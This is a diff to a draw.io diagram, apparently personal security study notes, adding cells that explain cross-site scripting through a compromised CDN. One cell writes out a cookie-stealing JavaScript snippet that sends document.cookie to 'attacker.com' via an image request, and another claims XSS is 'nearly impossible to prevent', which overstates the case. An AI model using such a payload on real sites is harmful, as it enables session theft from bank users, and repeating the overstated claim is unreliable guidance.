
Above: xss_concept.png in stsiwo/security_concept (draw.io), before the change. Source tidied: cells renumbered, new cells last; positions are measured from the earlier drawing's top-left corner, leaving out a move shared by most shapes.

The same diagram one commit later.

The edit, as a diff of the source:
```diff
@@ -91,5 +91,61 @@
     <mxCell id="30" value="use &quot;UrlEncoder&quot;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
       <mxGeometry x="190" y="400" width="120" height="60" as="geometry" />
     </mxCell>
+    <mxCell id="31" style="rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="32" target="34">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="32" value="xss is nearly impossible to prevent because of CDN" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="300" y="650" width="260" height="60" as="geometry" />
+    </mxCell>
+    <mxCell id="33" value="ex" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="34">
+      <mxGeometry relative="1" as="geometry">
+        <mxPoint x="470" y="910" as="targetPoint" />
+      </mxGeometry>
+    </mxCell>
+    <mxCell id="34" value="modern web site/app include CDN to load js from external to add some functionality. this fact make impossible to prevent xss" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="300" y="790" width="270" height="60" as="geometry" />
+    </mxCell>
+    <mxCell id="35" value="access" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="36" target="38">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="36" value="browser" style="ellipse;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="480" y="930" width="120" height="80" as="geometry" />
+    </mxCell>
+    <mxCell id="37" value="load" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;entryX=1;entryY=1;entryDx=0;entryDy=0;exitX=0.338;exitY=0.976;exitDx=0;exitDy=0;exitPerimeter=0;" parent="1" edge="1" source="38" target="36">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="38" value="webserver" style="ellipse;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="720" y="880" width="120" height="80" as="geometry" />
+    </mxCell>
+    <mxCell id="39" value="load script" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="41" target="43">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="40" value="target web site" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1.019;exitY=0.731;exitDx=0;exitDy=0;exitPerimeter=0;" parent="1" edge="1" source="41" target="48">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="41" value="script includes&lt;br&gt;CDN&lt;br&gt;&lt;br&gt;malicious script is loaded and send cookie of Bank to attacker&lt;br&gt;&lt;br&gt;other html and js" style="shape=note;whiteSpace=wrap;html=1;backgroundOutline=1;darkOpacity=0.05;" parent="1" vertex="1">
+      <mxGeometry x="460" y="1030" width="150" height="190" as="geometry" />
+    </mxCell>
+    <mxCell id="42" value="script" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;entryX=0;entryY=0;entryDx=150;entryDy=110;entryPerimeter=0;exitX=0.213;exitY=0.94;exitDx=0;exitDy=0;exitPerimeter=0;" parent="1" edge="1" source="43" target="41">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="43" value="CDN" style="ellipse;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="800" y="1010" width="120" height="80" as="geometry" />
+    </mxCell>
+    <mxCell id="44" value="inject malicious script if there is security hole in the CDN" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="45" target="43">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="45" value="attacker" style="ellipse;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="1040" y="870" width="120" height="80" as="geometry" />
+    </mxCell>
+    <mxCell id="46" value="cookie = document.cookie&lt;br&gt;img = new Image()&lt;br&gt;img.src = 'http://attacker.com?cookie=' + cookie" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
+      <mxGeometry x="950" y="1030" width="190" height="20" as="geometry" />
+    </mxCell>
+    <mxCell id="47" value="cookie when login" style="edgeStyle=none;rounded=0;jettySize=auto;html=1;" parent="1" edge="1" source="48" target="41">
+      <mxGeometry relative="1" as="geometry" />
+    </mxCell>
+    <mxCell id="48" value="Bank Website" style="ellipse;whiteSpace=wrap;html=1;" parent="1" vertex="1">
+      <mxGeometry x="800" y="1160" width="120" height="80" as="geometry" />
+    </mxCell>
   </root>
 </mxGraphModel>
```
